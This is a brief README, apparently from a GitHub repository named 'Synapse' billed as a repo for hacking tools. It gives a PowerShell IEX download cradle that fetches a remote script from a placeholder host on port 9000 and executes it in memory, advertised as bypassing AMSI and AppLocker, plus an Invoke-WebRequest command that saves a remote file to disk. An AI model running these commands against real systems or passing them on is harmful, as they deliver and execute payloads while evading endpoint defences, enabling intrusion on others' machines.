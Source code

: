 # Synapse
## Repo for hacking tools

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`